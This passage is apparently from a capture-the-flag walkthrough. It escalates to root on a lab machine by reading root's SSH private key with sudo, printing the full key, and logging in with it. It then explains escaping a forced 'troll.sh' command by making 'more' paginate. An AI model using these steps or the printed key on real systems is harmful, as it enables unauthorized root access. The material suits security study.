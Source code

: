     $ sudo cat /root/.ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAQEAnbuWFqguL1RgxPF2kO1Fv1pC4BIFjxOp+ATX3k4WvuJyEdrcAFB5
    esn89B6TTKjBffemI/Ppb6/KQ+RXjgh5ZtEzxmRHhO9v9OAcXm76M/0wmG49v+nD79y53b
    KFMjcsqwvHZXjn4b3Wk1myQTC2sP763UNfBfd5ZH9uViBqT3NZQNrmzV8V534fZsGeHsMf
    vvdbU5yRWlQIHypurKs5jKtwXnRJqpTnDkics2SBcqaL+1ivwZIyNlBvdS7YZBoxRasLG5
    3UKg4SIc9K3ujdYtCDYYSGjRxHQLIDRx1wGDo4Bn3jBbZsHqT6A3mpx367jx08WHlcy+eb
    hGyuXtnBrwAAA8CBizlZgYs5WQAAAAdzc2gtcnNhAAABAQCdu5YWqC4vVGDE8XaQ7UW/Wk
    LgEgWPE6n4BNfeTha+4nIR2twAUHl6yfz0HpNMqMF996Yj8+lvr8pD5FeOCHlm0TPGZEeE
    72/04Bxebvoz/TCYbj2/6cPv3LndsoUyNyyrC8dleOfhvdaTWbJBMLaw/vrdQ18F93lkf2
    5WIGpPc1lA2ubNXxXnfh9mwZ4ewx++91tTnJFaVAgfKm6sqzmMq3BedEmqlOcOSJyzZIFy
    pov7WK/BkjI2UG91LthkGjFFqwsbndQqDhIhz0re6N1i0INhhIaNHEdAsgNHHXAYOjgGfe
    MFtmwepPoDeanHfruPHTxYeVzL55uEbK5e2cGvAAAAAwEAAQAAAQBKCYUXuXWETczmZJjM
    yjLU8N83If5t/ELp4gwZkvnmO5BjhSGDHEMJOcp8I+XsM8IvCJF5isHl5NPCLmpShvPFKS
    luVB+l7GXWwWNPiDP1N0EaK5TcgjOwYSD1SRhwS6mx1+OOY8QkF+GiZJXhN6ZpSiYiub7e
    pBzc6Vu3HZwJElUCvAuCxDbazc+RUT9VzH2BdQ3w1D66T8c3ruuRD8P86s0zf7/Bo/OmBi
    YeT/X3QcjyZTgmPjBR/m7nZNVUaDgWMCzIx2OecXX2bhdIVnpgVZVSq+EpidgvOPa/bjfQ
    AXB5vEuQ7lGz15Hx2isz5ai/zAKIGY33omnDT3f4ESvRAAAAgCkSIIvDtArb/6jXQb57In
    aExbm6PurE05TEHj/COnGSjD0iWk6CFFs33ud1A4FX1ACEVkEh51KBukSGhOXHd/nAH56i
    pL4h5vmyt3JqLlilSkRju2oOH1I5edxIbTHD5aFHssD3l2OSaO4ax/h42BVp+Xr63FdDbS
    NV8qd9gYp7AAAAgQDM02e+O6t1J+X41VaGRuJTnYCfWXKA5KnmmDM5UKQHm4i0dXL9xWgE
    bBrFggoE2XsowMLRGOPe0ijuXOkgkpCeSB/rxmQ+Nn2x2O/H7yoIgl1IbpNIK6EZTaCebC
    lfdn0hK55BSl394ql0y4ns91E4XL0Xvc9RDlBvGF5BAd/KwwAAAIEAxSQf51F5oIYIvl4l
    9y3g77L+VlV0Yg9iLunUT/km9abp9e2oTsNXN3e9IHja5GVxOUjhlBC8Yposlv/oaAApJu
    KC9XLqjqEmpo5gq61fG0HRPOkt1DKNuR3zIrWHot0DificHPyGISeu1/oR8tr9OR6Hmlvh
    +AY4rKYqqUj+hqUAAAALcm9vdEBmYW1pbHk=
    -----END OPENSSH PRIVATE KEY-----

After reading the 'authorized_keys' file and the private key, let's try to log in via to the machine via SSH as the 'root' user.

    $ ssh root@10.0.0.39 -i id_rsa


![image](https://user-images.githubusercontent.com/76552238/159302424-984fe0d8-57e9-494d-b48d-9781fa51172b.png) 

Reading the '***/home/root/.ssh/authorized_keys***' file again we see that the command '***/root/troll.sh***' is being executed once checking the hosts.

    $ sudo cat /root/troll.sh
    #!/bin/sh
    export TERM=xterm
    more /root/welcome.txt
    exit 0

Reading the '***troll.sh***' command we see the it reads a text file using the command '***more***' and then exits.

The '***more***' command is different from '***cat***' by that it displays one screen at a time in case the file is large. The '***more***' command also allows the user do scroll up and down through the page and even execute commands.  
That means if we can make the '***more***' command think the file it is trying to read is too large we can execute a command.  
All we need to is resize the window so no all of the file will be able to be displayed on the screen.
